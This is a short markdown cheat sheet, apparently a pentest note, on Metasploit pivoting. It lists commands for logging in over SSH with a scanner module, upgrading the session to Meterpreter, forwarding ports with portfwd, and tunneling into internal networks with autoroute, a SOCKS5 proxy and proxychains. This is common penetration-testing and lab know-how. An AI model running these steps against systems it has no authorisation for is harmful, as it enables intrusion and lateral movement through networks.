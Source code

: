 # Metasploit

# Usage:

#### route add/del IP SUBNET [COMM/SID] (proxy)

#### portfwd add/del -l PORT -p PORT -r IP (port forwarding)

## Port Forwarding with Metasploit

### 1) With SSH login

 - use auxiliary/scanner/ssh/ssh_login

 - set rhosts RHOSTS

 - set username USERNAME

 - set password PASSWORD

 - exploit

 - sessions -u 1 (Upgrade to Meterpreter session. Creates an EXTRA session with meterpreter)

 - sessions 2

 - netstat -antp (Check for applications that run internally within the target)

 - portfwd add -l LOCAL_PORT -p TARGET_PORT -r 127.0.0.1

## Tunneling with Metasploit

### 1) autoroute (Deprecated)

 - sessions

 - use post/multi/manage/autoroute

 - set session SESSION_NUM

 - exploit

 - use auxiliary/server/socks5

 - set srvhost 127.0.0.1

 - exploit

### Then go to web browser in Kali and make the manual proxy configuration settings

## TIP: Instead, we can use proxychains to connect to internal machines in the network
